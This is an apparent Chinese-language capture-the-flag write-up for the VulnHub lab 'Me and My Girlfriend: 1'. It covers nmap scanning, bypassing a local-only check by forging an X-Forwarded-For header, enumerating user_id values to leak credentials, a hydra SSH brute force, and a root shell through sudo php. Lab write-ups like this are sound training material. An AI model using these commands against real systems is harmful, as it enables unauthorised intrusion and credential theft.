

## 复盘*

## 靶机地址

[Me and My Girlfriend: 1 ~ VulnHub](https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/)


## 信息收集

### nmap扫描

#### 主机探活

```
nmap -sn 192.168.147.0/24
```


确定靶机ip：

192.168.147.133


#### 创建文件夹用来存储nmap扫描结果

```
mkdir nmapscan
```


#### nmap扫描主机开放端口

```
nmap -sT -p- 192.168.147.133 -oA nmapscan/ports
```


确定靶机开放端口

- 22 ssh服务
- 80 http服务


#### 提取端口信息

```
ports=$(cat nmapscan/ports.nmap | grep open | awk -F/ '{print $1}' | paste -sd,)
echo $ports
```


#### 详细结果扫描

```
nmap -sT -sV -sC -O -p22,80 192.168.147.133 -oA nmapscan/detail
```


分析：

- 22端口：OpenSSH 6.6.1p1
- Ubuntu操作系统
- 80端口：Apache 2.4.7


#### UDP扫描

```
nmap -sU --top-ports 20 -p22,80 192.168.147.133 -oA nmapscan/udp
```


分析：

- 22 ssh 关闭状态
- 80 http 关闭状态


### 80端口渗透

#### 访问192.168.147.133


提示只允许本地访问

查看源码


提示

```
Maybe you can search how to use x-forwarded-for

也许你可以搜索如何使用x-forwarded-for
```

提示xff伪造绕过


#### 伪造xff

重新访问，bp抓包


添加：

```
x-forwarded-for:127.0.0.1
```

成功访问


（应该是要将所有访问的请求中加入xff）


有一个登录页面


一个注册页面




#### 尝试注册一个账户


重定向到登陆页面


#### 尝试登陆

登陆成功，跳转到欢迎页面


查看源码无发现


#### 查看profile


显示用户名和隐藏的密码

#### 查看源码


暴露密码信息


url中存在user_id参数，尝试遍历


#### 爆破user_id参数

intruder模块

user_id处添加payload


选择数字遍历


开始爆破


#### length排序，查看响应头


存在用户名及其密码


#### 提取用户名和密码

```
cat >> username << EOF
heredoc> eweuhtandingan
heredoc> sedihaingmah
heredoc> aingmaung
heredoc> abdikasepak
heredoc> sundatea
heredoc> alice
heredoc> EOF
```


```
cat username
```


```
cat >> passwd << EOF
heredoc> skuyatuh
heredoc> cedihhihihi
heredoc> qwerty!!!
heredoc> dorrrrr
heredoc> indONEsia
heredoc> 4lic3
heredoc> EOF
```


```
cat passwd
```


### 22端口渗透


#### hydra爆破ssh服务

```
hydra -L username -P passwd ssh://192.168.147.133
```


爆破成功

- alice：4lic3


#### ssh登录

```
ssh alice@192.168.147.133
```


## 提权


### 得到第一个flag

```
ls -al
```


```
cd .my_secret
ls
cat flag1.txt
```


```
Greattttt my brother! You saw the Alice's note! Now you save the record information to give to bob! I know if it's given to him then Bob will be hurt but this is better than Bob cheated!
Now your last job is get access to the root and read the flag ^_^

太棒了，兄弟！你看到爱丽丝的便签了！现在，你要保存记录信息去提供给bob！我知道如果给他，鲍勃会受伤的，但这总比鲍勃被骗要好！
现在，您的最后一项任务是取得root权限并读取标志^_^
哇！我喜欢这家公司，我希望在这里我能找到一个比鲍勃更好的合作伙伴^_^，希望鲍勃不知道我的笔记
```


### 执行sudo -l

```
sudo -l
```


### php提权

```
CMD="/bin/bash"
sudo php -r "system('$CMD');"
whoami
```


### 得到第二个flag

```
cd /root
ls
cat flag2.txt
```

